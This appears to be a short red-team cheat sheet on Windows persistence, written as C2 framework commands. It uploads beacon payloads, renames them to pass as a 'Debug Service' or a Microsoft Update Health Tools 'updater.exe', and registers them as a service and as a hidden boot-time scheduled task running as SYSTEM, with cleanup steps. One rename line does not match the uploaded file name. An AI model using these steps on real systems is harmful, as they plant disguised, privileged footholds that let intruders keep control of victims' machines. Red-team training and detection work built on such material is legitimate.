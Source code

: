 ##### Windows service
```powershell
cd C:\Windows\System32\
upload C:\Payloads\beacon_x64.svc.exe
mv beacon_x64.svc.exe debug_svc.exe
```

```powershell
sc_create dbgsvc "Debug Service" C:\Windows\System32\debug_svc.exe "Windows Debug Service" 0 2 3
```

```powershell
sc_qc dbgsvc
```

Cleanup
```powershell
sc_delete dbgsvc
```

##### Scheduled Task
```xml
<Task xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
<Triggers>
    <BootTrigger>
        <Enabled>true</Enabled>
    </BootTrigger>
</Triggers>
<Principals>
    <Principal>
        <UserId>NT AUTHORITY\SYSTEM</UserId>
        <RunLevel>HighestAvailable</RunLevel>
    </Principal>
</Principals>
<Settings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>true</Hidden>
</Settings>
<Actions>
    <Exec>
        <Command>"C:\Program Files\Microsoft Update Health Tools\updater.exe"</Command>
    </Exec>
</Actions>
</Task>
```

```powershell
cd C:\Program Files\Microsoft Update Health Tools
upload C:\Payloads\dns_x64.svc.exe
mv dns_x64.exe updater.exe
```

```powershell
schtaskscreate \Microsoft\Windows\WindowsUpdate\Updater XML CREATE
```

Cleanup
```powershell
schtasksdelete \Microsoft\Windows\WindowsUpdate\Updater TASK
```